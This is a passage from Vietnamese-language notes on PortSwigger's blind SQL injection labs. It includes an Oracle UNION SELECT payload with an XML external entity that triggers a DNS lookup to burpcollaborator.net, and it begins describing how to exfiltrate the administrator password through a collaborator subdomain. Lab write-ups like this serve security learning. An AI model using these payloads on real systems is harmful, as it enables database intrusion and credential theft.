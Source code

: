 Thử từng cái 1

`TrackingId=oV38m8npQnooBz3W'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//burpcollaborator.net">+%25remote%3b]>'),'/l')+FROM+dual--`

![](images/71.png)

Với dns lookup của Oracle thành công



## Lab: Blind SQL injection with out-of-band data exfiltration

### Link: [https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

![](images/72.png)

Đề yêu cầu ta gửi DNS lookup để tìm ra password của administrator. Giống với lab trước, lần này ta sẽ kèm theo password bằng cách request tới 
`sub-domain.burpcollaborator.net` để tìm ip cho `password.sub-domain.burpcollaborator.net`
